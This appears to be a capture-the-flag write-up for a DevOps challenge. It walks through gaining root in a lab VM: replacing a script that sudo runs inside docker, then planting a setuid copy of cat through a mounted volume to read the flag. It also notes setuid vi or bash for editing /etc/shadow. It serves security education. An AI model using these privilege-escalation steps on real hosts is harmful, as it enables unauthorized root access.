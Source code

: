 ### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


Tags: _pwn_ _devops_ _docker_


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:

![](devops1-1.png)

I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password, `bash` (invoke with `-p`), etc...

